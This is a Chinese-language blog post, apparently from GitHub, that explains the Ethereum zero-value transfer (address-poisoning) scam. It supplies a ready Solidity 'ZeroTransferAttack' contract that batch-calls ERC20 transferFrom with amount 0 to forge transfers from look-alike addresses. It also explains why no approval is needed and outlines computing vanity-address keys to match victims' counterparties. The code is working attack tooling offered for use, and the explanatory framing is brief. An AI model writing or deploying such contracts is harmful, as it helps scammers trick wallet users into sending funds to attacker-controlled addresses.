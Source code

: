 # 写一个 0 转账攻击合约

## 备注

时间：2024 年 7 月 7 日

作者：[33357](https://github.com/33357)

## 正文

以太坊上有大量转账 Token 数量为 0 的合约，比如这个 https://etherscan.io/address/0x6c5319df4fcca5961d71e117287c76a1f2aad593 。这些合约伪造了首尾相同的地址向用户地址转账，利用了有些人会在转账之前复制上一个地址的习惯来骗取用户资产。这里我会写一个类似功能的合约。

## 合约代码

```javascript
//SPDX-License-Identifier: Unlicense
pragma solidity ^0.8.25;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract ZeroTransferAttack {
    function bacthTransferFrom(
        address[] memory tokenList,
        address[] memory fromList,
        address[] memory toList
    ) external {
        for (uint256 i; i < tokenList.length; i++) {
            IERC20(tokenList[i]).transferFrom(fromList[i], toList[i], 0);
        }
    }
}
```

很多人会奇怪，没有经过 `approve` 也能调用 `transferFrom` 吗？

由于 `ERC20` 合约的 `transferFrom` 方法接受数量为 `0` 的调用，而没有授权的状态就是 `0`。因此没有经过 `approve` 授权也可以调用 `transferFrom` 生成转账记录，这大大降低了进行数量为 0 转账的操作成本。

```javascript
function transferFrom(
    address sender,
    address recipient,
    uint256 amount
) public virtual override returns (bool) {
    _transfer(sender, recipient, amount);

    uint256 currentAllowance = _allowances[sender][_msgSender()];
    require(
      currentAllowance >= amount,
      "ERC20: transfer amount exceeds allowance"
    );
    _approve(sender, _msgSender(), currentAllowance - amount);

    return true;
}
```

## 攻击分析

做数量为 0 转账攻击的门槛其实不在于合约，而是对链上交易数据的爬取和计算首尾相同地址私钥。这需要完整的链上数据收集和分析，并配上有强大的 hash 计算能力。

当一个地址发起一笔转账后可以跟踪并迅速计算出首尾相同地址的私钥，调用 `transferFrom` 生成一笔发起人首尾地址相同、目标地址一样、转账时间相近的记录。如果用惯了传统的金融 APP，对复制上一个交易没有警惕性，就很容易会上这种当。

## 总结

很多 APP 为了方便用户简化了地址显示，一定程度上也给了骗子可趁之机。市场也许需要一个既方便用户，又具有唯一性的地址显示方式。
